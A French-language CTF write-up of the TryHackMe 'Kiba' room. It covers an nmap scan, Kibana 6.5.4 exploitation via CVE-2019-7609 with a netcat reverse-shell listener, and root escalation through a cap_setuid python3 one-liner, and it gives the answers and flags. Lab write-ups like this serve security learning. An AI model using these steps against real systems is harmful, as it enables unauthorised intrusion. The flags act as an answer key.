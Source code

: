 # kiba #

## Task 1 Flags ##

**What is the vulnerability that is specific to programming languages with prototype-based inheritance?**

On fait une recherche sur un moteur de recherche est on trouve la réponse.  
La réponse est : Prototype pollution     

**hat is the version of visualization dashboard installed in the server?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.30.209 kiba.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A kiba.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 09:42 CEST
Nmap scan report for kiba.thm (10.10.30.209)
Host is up (0.033s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 04 Aug 2021 07:43:21 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 04 Aug 2021 07:43:20 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 04 Aug 2021 07:43:20 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.91%I=7%D=8/4%Time=610A4518%P=x86_64-pc-linux-gnu%r(Get
SF:Request,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nkb
SF:n-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c
SF:\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\x
SF:20close\r\nDate:\x20Wed,\x2004\x20Aug\x202021\x2007:43:20\x20GMT\r\n\r\
SF:n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x2
SF:0kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconten
SF:t-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-c
SF:ache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Wed,\
SF:x2004\x20Aug\x202021\x2007:43:20\x20GMT\r\n\r\n{\"statusCode\":404,\"er
SF:ror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSe
SF:ssionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSer
SF:verCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSession
SF:Req,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not\
SF:x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d0492328
SF:3ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\r
SF:\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x2
SF:0close\r\nDate:\x20Wed,\x2004\x20Aug\x202021\x2007:43:21\x20GMT\r\n\r\n
SF:{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fou
SF:nd\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPBi
SF:ndReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/4%OT=22%CT=1%CU=35690%PV=Y%DS=2%DC=T%G=Y%TM=610A4527
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   33.07 ms 10.9.0.1
2   33.26 ms kiba.thm (10.10.30.209)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.59 seconds

```

D'après le scan de Nmap on trouve 4 ports ouverts.   
Le port 22 avec le service SSH.    
Le port 80 avec le service HTTP.
Le port 5044 avec peut être le service lxi.   
Le port 5601 avec peut être le service esmagent.    

![page1](./Task1-01.png)
Sur le port 80 il y a rien.    

![page2](./Task1-02.png)

Sur le port 5601 on trouve sur l'interface kibana.   
Dans la section Management on trouve la version de ke kibana.   

La réponse est : 6.5.4

**What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000**

![page3](./Task1-03.png)

En faisant un recherche on trouve la bonne version du CVE.    

Réponse : CVE-2019-7609    

**Compromise the machine and locate user.txt**

![page4](./Task1-04.png)

Dans Timelion de kibana on lui fournit un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le bon port pour obtenir un shell.    

Puis dans kibana cliquez sur Timelion.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from kiba.thm [10.10.30.209] 54078
bash: cannot set terminal process group (948): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ cat /home/kiba/user.txt
cat /home/kiba/user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}

```

On foit le shell obtenu on peut lire le flag.  
La réponse est : THM{1s_easy_pwn3d_k1bana_w1th_rce}   

**How would you recursively list all of these capabilities?**

La réponse est : getcap -r /    

**Escalate privileges and obtain root.txt**

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

```

On voit que un binaire python3 est setuid.   

```bash
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<on3 -c 'import os; os.setuid(0); os.system("/bin/bash")'                    
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}

```

Exécuter un shell root à partir du python3 en setuid.   
On obtient un shell avec les droits root.    
On lit le flag.   
La réponse est : THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}     